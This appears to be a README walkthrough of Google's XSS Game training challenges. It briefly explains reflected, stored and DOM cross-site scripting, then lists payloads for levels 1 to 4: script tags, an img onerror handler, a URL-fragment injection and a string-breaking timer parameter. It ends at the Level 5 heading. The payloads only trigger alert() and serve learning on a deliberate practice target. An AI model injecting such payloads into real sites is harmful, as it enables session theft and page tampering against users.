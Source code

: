 # XSS Game Appspot 

![image](https://user-images.githubusercontent.com/60937657/209459481-f9fa5664-0a05-4402-8f99-2abe37ffd64d.png)

Link of XSS GAME AREA - https://xss-game.appspot.com/

**Cross-Site Scripting (XSS)** is one of the most popular and vulnerable attacks which is known by every advanced tester. It is considered one of the riskiest attacks for web applications and can bring harmful consequences too.

XSS is often compared with similar client-side attacks, as client-side languages are mostly being used during this attack. However, an XSS attack is considered riskier, because of its ability to damage even less vulnerable technologies.

## Types of Cross Site Scripting Attacks

The prime purpose of performing an XSS attack is to steal another person’s identity. As mentioned, it may be cookies, session tokens, etc. XSS also may be used to display faked pages or forms for the victim. However, this attack can be performed in several ways.

This attack is divided into three main categories as shown below:

1) Reflected XSS – This attack occurs, when a malicious script is not being saved on the webserver but reflected in the website’s results.
2) Stored XSS – This attack occurs when a malicious script is being saved on the webserver permanently.
3) DOM – This occurs, when the DOM environment is being changed, but the code remains the same.

### Level 1 

![image](https://user-images.githubusercontent.com/60937657/209504143-554f58db-6d74-474b-b20f-9f6d1fd4fb8b.png)

```
<script>alert()</script>
```

![image](https://user-images.githubusercontent.com/60937657/209503948-bd3663c3-59d9-4516-a762-96af44f6294d.png)

### Level 2 

![image](https://user-images.githubusercontent.com/60937657/209503755-05c0d614-3dda-4dc7-b855-a42d5b9f4cee.png)

```
<img src="http://inexist.ent"
onerror="javascript:alert(1)"/>
```

![image](https://user-images.githubusercontent.com/60937657/209503869-0f536c23-f2a7-466c-bb0d-101e4a695477.png)

### Level 3 

![image](https://user-images.githubusercontent.com/60937657/209504304-c8f8484f-0c54-4673-a6d0-c403a0591670.png)

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```

![image](https://user-images.githubusercontent.com/60937657/209508407-5e598764-ee7e-478e-a1f6-34245fc3cf76.png)

### Level 4 

![image](https://user-images.githubusercontent.com/60937657/209508468-2e519c5c-0e26-44a7-ad53-a39ff7e25a75.png)

```
timer=');alert('xss
```

![image](https://user-images.githubusercontent.com/60937657/209509468-678f2ef2-8aec-4e88-a381-c7f05e2ac147.png)

### Level 5 



